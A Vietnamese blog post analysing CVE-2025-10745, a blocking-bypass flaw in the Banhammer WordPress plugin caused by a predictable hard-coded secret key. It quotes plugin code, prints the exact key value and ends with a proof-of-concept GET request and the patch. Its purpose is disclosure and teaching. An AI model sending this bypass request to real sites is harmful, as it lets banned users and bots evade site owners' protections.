

# CVE-2025-10745 Analysis & POC


<!--more-->

## CVE & Basic Info
Plugin **Banhammer – Monitor Site Traffic, Block Bad Users and Bots** cho WordPress bị tồn tại lỗ hổng **vượt qua cơ chế chặn (Blocking Bypass)** trong tất cả các phiên bản từ trước đến **3.4.8** (bao gồm cả 3.4.8). Nguyên nhân là do một **“khóa bí mật” dùng chung cho toàn bộ website** được tạo ra theo cách **xác định trước** từ một tập ký tự cố định bằng cách sử dụng hàm `md5()` và `base64_encode()`, sau đó được lưu trong tùy chọn `banhammer_secret_key`. Điều này cho phép kẻ tấn công **không cần xác thực** có thể vượt qua chức năng ghi log và chặn của plugin bằng cách thêm một tham số GET có tên `banhammer-process_{SECRET}`, trong đó `{SECRET}` là giá trị có thể dự đoán được, khiến Banhammer **ngừng áp dụng các biện pháp bảo vệ cho request đó**.

* **CVE ID**: [CVE-2025-10745](https://www.cve.org/CVERecord?id=CVE-2025-10745)
* **Vulnerability Type**: Bypass Vulnerability
* **Affected Versions**: <= 3.4.8
* **Patched Versions**: 3.4.9
* **CVSS severity**: Low (5.3)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Banhammer Plugin](https://wordpress.org/plugins/banhammer/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Banhammer**:  
    * `3.4.7` – **vulnerable**  
    * `3.4.9` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Analysis 
Plugin đã đăng ký action hook:

```php
add_action('wp_ajax_banhammer_armory', 'banhammer_armory');
```

`wp_ajax_` là hook dành cho người đùng đã đăng nhập, khi có request gửi đến `/wp-admin/admin-ajax.php` với param `action=banhammer_armory` thì callback `banhammer_armory` được gọi:

```php {title="armory-ajax.php v3.4.7" hl_lines=[] data-open=true}
function banhammer_armory() {
	
	check_ajax_referer('banhammer', 'nonce');
	
	if (!current_user_can('manage_options')) return;
	
	$vars = banhammer_armory_vars();
	
	extract($vars); // $wpdb, $table, $items, $type, $bulk, $sort, $order, $search, $filter, $status, $fx, $jump, $count, $limit, $offset, $toggle
	
	$limit = ($limit > 10) ? 10 : $limit;
	
	if ($type === 'add') {
        ...
	} elseif ($type === 'bulk') {
		list ($query, $count) = banhammer_armory_bulk($wpdb, $table, $offset, $limit, $sort, $order, $bulk, $items, $search, $filter, $status);
    ...
	}
	
	banhammer_armory_results($wpdb, $table, $query, $count, $type, $offset, $limit);
	
	die(); //
}
```

Hàm `banhammer_armory()` trước hết kiểm tra nonce của AJAX và quyền truy cập của người dùng. Nếu không hợp lệ hoặc người dùng không có quyền `manage_options` (Administrator) thì hàm sẽ dừng ngay.

Tiếp theo, hàm gọi `banhammer_armory_vars()` để lấy toàn bộ các tham số cần thiết từ request và lưu vào mảng `$vars`. Sau đó, các phần tử trong mảng này được gán thành các biến cục bộ bằng `extract($vars)`.

Giá trị `$limit` được giới hạn tối đa là 10 để tránh truy vấn quá nhiều bản ghi trong một lần.

Tùy theo giá trị của `$type`, hàm sẽ thực hiện các nhánh xử lý khác nhau: Nếu `$type === 'bulk'` thì gọi `banhammer_armory_bulk()` để thực hiện tính năng ban dựa trên IP.

Chức năng này do **administrator** trực tiếp sử dụng.


---

Plugin gắn `hàm banhammer_init()` vào hook `init`:

```php
add_action('init', 'banhammer_init');
```

Điều này có nghĩa là mỗi request WordPress đều sẽ chạy qua hàm này.

```php {title="armory-ajax.php v3.4.7" hl_lines=[] data-open=true}
function banhammer_init() {
	
	global $BanhammerWP;
	
	$options = get_option('banhammer_settings', $BanhammerWP->options());
	
	if (banhammer_abort($options)) return;
	
	extract(banhammer_get_vars()); // $status, $date, $user, $protocol, $method, $domain, $request, $ua, $refer, $proxy, $ip
	
	$check = banhammer_check($user, $ip);
	
	$banhammer = false;
	
	$status = 0;
	
	if (is_array($check)) {
		
		extract($check); // $tower, $status
		
		update_option('banhammer_tower', $tower);
		
		if ($status == 3 || $status == 4) $banhammer = true;
		
	}
	
	banhammer_insert($status, $date, $user, $protocol, $method, $domain, $request, $ua, $refer, $proxy, $ip);
	
	if ($banhammer) {
		
		banhammer_disable_cache();
		
		banhammer($options);
		
	}
	
	return false;
	
}
```

Trước khi thực hiện kiểm tra IP hoặc user có bị ban hay không, plugin sẽ gọi hàm:

```php
banhammer_abort($options)
```

Nếu hàm này trả về true thì toàn bộ cơ chế kiểm tra ban sẽ bị bỏ qua cho request hiện tại.

Nói cách khác: request đó sẽ không bị ban, không bị chặn và cũng không bị xử lý theo luật ban.

```php {title="banhammer-core.php v3.4.7" hl_lines=[] data-open=true}
function banhammer_abort($options) {
    ...
	if (!empty($_GET)) {
		
		foreach ($_GET as $k => $v) {
			
			if (strpos($k, 'banhammer-process') !== false) {
				
				$key = banhammer_get_secret_key(30, 'abort check');
				
				$get_key = explode('banhammer-process_', $k);
				
				$get_key = end($get_key);
				
				if ($get_key === $key) {
					
					return true;
					
				}
				
			}
			
		}
		
	}
    ...
}
```

Ở đây plugin cho phép bypass cơ chế ban này thông qua URL có chứa:

```
?banhammer-process_<secret_key>
```

Nếu key khớp với secret key nội bộ.

```php {title="banhammer-functions.php v3.4.7" hl_lines=[] data-open=true}
function banhammer_get_secret_key($bytes, $context) {
	
	$key = get_option('banhammer_secret_key');
	
	if (!$key) {
		
		$key = banhammer_secret_key($bytes);
		
		$update = update_option('banhammer_secret_key', $key);
		
		$update = $update ? 'added' : 'failed';
		
		$context = $update .' via '. $context;
		
		$log = apply_filters('banhammer_get_secret_key_log', false);
		
		if ($log) error_log('Banhammer: Secret key '. print_r($context, true));
		
	}
	
	return apply_filters('banhammer_get_secret_key', $key);
	
}
```

Nếu key chưa được tạo, hàm gọi tới `banhammer_secret_key($bytes)` với `bytes=30` 

```php {title="banhammer-functions.php v3.4.7" hl_lines=[] data-open=true}
function banhammer_secret_key($bytes) {
	$chars = '1234567890abcdefghijklmnopqrstuvwxyz';
	
	$key = base64_encode(substr(md5($chars), 0, $bytes));
	
	return apply_filters('banhammer_secret_key', $key);	
}
```

Điểm máu chốt gây lỗi nằm ở hàm này, key hoàn toàn có thể đoán được, chỉ có 1 giá trị duy nhất:

```
OTI4ZjdiY2RjZDA4ODY5Y2M0NGMxYmYyNGU3YWJl
```

Như vậy, khi gửi request với param:

```
?banhammer-process_OTI4ZjdiY2RjZDA4ODY5Y2M0NGMxYmYyNGU3YWJl
```

Thì có thể bypass qua cơ chế ban này.

Bản vá trong **v3.4.9** đã khắc phục lỗ hổng bằng cách **ràng buộc cơ chế bypass với quyền Administrator**. Cụ thể, plugin chỉ cho phép bỏ qua kiểm tra ban khi **secret key hợp lệ và người dùng có quyền `manage_options`**:

```php
if ($get_key === $key && current_user_can('manage_options')) {
    return true;
}
```

Nhờ đó, tham số `banhammer-process_{SECRET}` không còn có thể bị lợi dụng bởi người dùng chưa xác thực, và cơ chế bypass chỉ còn phục vụ cho các tác vụ quản trị hợp lệ.

## Flow


## Proof of Concept (PoC)
Gửi request với param:

```http
GET /?banhammer-process_OTI4ZjdiY2RjZDA4ODY5Y2M0NGMxYmYyNGU3YWJl HTTP/1.1
Host: localhost
```

## Conclusion

CVE-2025-10745 cho phép bypass cơ chế bảo vệ của plugin Banhammer thông qua tham số GET chứa secret key có thể dự đoán được. Bản vá đã bổ sung điều kiện kiểm tra quyền người dùng, chỉ cho phép bypass khi **key hợp lệ và người dùng có quyền `manage_options`**, qua đó ngăn chặn hoàn toàn khả năng khai thác từ phía **unauthenticated attacker**.

## Key Takeaways

* Lỗi logic có thể vô hiệu hóa toàn bộ cơ chế bảo vệ dù không có khai thác kỹ thuật phức tạp.
* Secret key sinh từ dữ liệu tĩnh không đảm bảo tính bảo mật.
* Cơ chế bypass cần được xác thực chặt chẽ và không nên dựa vào tham số GET cố định.
* Cần cập nhật plugin lên phiên bản đã vá để tránh bị vượt qua cơ chế chặn.

## References
[Bypass Vulnerability](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress Banhammer Plugin <= 3.4.8 is vulnerable to a medium priority Bypass Vulnerability](https://patchstack.com/database/wordpress/plugin/banhammer/vulnerability/wordpress-banhammer-plugin-3-4-8-unauthenticated-protection-mechanism-bypass-vulnerability) 

---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2026-01-23-cve-2025-10745/  

